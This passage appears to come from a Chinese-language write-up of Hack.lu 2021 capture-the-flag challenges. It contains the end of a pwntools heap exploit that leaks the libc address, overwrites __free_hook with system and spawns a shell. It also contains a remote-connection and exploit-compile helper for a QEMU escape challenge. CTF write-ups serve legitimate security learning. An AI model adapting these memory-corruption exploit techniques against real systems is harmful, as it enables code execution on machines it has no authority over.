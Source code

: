 ```python
ht.pop_set()
pm.insert('2' * 1, 'j' * 2)
#0x5070 0x5bc0 0x5ac0
pm.alter_bytes('2' * 1, (p64(heap_addr + 0x59b0) + p64(0x2000) + p64(0x2000)).ljust(0x18, b'v'))
pm.insert('3' * 1, 'j' * 0xff)
for i in range(8):
    pm.alter_bytes('3' * 1,  (p64(heap_addr + 0x5070) + p64(0x18) + p64(0x18)).ljust(0xfe, b'v'))
libc.address = u64(ht.show(0)[16:]) - 0x1e0c00
print("libc.address = " + hex(libc.address))

pm.alter_bytes('3' * 1,  (p64(0xdeadbeef) * 2 + p64(libc.symbols["__free_hook"] - 0x8) + p64(0x30) + p64(0x50)).ljust(0xfe, b'v'))
ht.alter_bytes(0xc, b"/bin/sh\x00" + p64(libc.symbols["system"]))

io.interactive()
```

### Stonks Socket(high)

https://mem2019.github.io/jekyll/update/2021/10/31/HackLu2021-Stonks-Socket.html

### Cloudinspect(Mid)

比较简单的QEMU题目，还给了源码，对新手极其友好
先贴个交互脚本，作用是连接远程，然后输入可执行文件

```python
from pwn import *
import os

local=0
aslr=True
context.log_level="debug"
#context.terminal = ["deepin-terminal","-x","sh","-c"]

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process("./run_chall.sh",aslr=aslr)
    #gdb.attach(p)
else:
    remote_addr=['flu.xxx', 20065]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s):
    print('\033[1;31;40m{s}\033[0m'.format(s=s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    if not local:
        ru("size:")
    os.system("musl-gcc ./exp/exp.c --static -o ./exp/exp")
```